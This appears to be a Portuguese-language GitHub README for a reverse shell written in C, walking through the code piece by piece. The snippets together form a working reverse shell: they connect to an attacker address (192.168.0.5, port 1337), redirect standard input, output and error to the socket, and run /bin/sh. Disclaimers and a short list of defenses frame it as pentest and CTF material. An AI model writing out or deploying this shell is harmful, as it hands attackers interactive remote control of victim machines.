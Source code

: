 # 🐚 C Reverse Shell 

Este rep1ositório contém um código de **shell reverso escrito em linguagem C**, ideal para fins educacionais, CTFs e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**
> O uso indevido pode violar leis locais e internacionais.
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é um shell reverso escrito em C. Quando executado, ele instrui a máquina (vítima) a se conectar de volta ao atacante, oferecendo um terminal interativo com os mesmos privilégios do usuário que executou o programa.

---

### 1. Definições iniciais

```c
#define REMOTE_ADDR "192.168.0.5"
#define REMOTE_PORT 1337
```

- Define o IP e a porta do atacante.  
- O código tentará conectar-se a esse IP/porta usando TCP.

---

### 2. Estrutura do socket

```c
struct sockaddr_in sa;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
```

- Define o tipo de conexão (IPv4), IP de destino e porta de destino.

---

### 3. Criação e conexão do socket

```c
s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&sa, sizeof(sa));
```

- Cria um socket TCP e conecta ao servidor remoto (máquina atacante).

---

### 4. Redirecionamento de I/O

```c
dup2(s, 0);
dup2(s, 1);
dup2(s, 2);
```

- Redireciona entrada, saída e erro padrão para o socket:
  - stdin → socket
  - stdout → socket
  - stderr → socket

---

### 5. Execução da shell remota

```c
execve("/bin/sh", NULL, NULL);
```

- Inicia um shell interativo (`/bin/sh`) com entrada/saída ligada ao socket TCP.
- O atacante poderá interagir com a shell remotamente.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão do cliente.
- Simulações de ataque para avaliar defesa de sistemas.
- Análises forenses, educativas ou ambientes CTF.

---

## 💡 Conclusão Técnica

Este programa:

- Estabelece uma conexão reversa TCP com o atacante.
- Redireciona os descritores padrão (0, 1, 2) para o socket.
- Executa uma shell interativa com controle remoto total.
- Simples, eficaz e muito usado em exploits ou pós-exploração.

---

## 🛡️ Proteção recomendada

Para evitar que códigos como este sejam executados, algumas boas práticas incluem:

- Restringir compiladores em servidores.
- Monitorar conexões de saída.
- Usar firewalls para impedir conexões reversas suspeitas.
- Analisar uso de `execve`, `dup2`, `socket`, etc., com ferramentas de segurança.

---

## 👨‍💻 Autor

- [r0daemon](https://github.com/0daemon)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
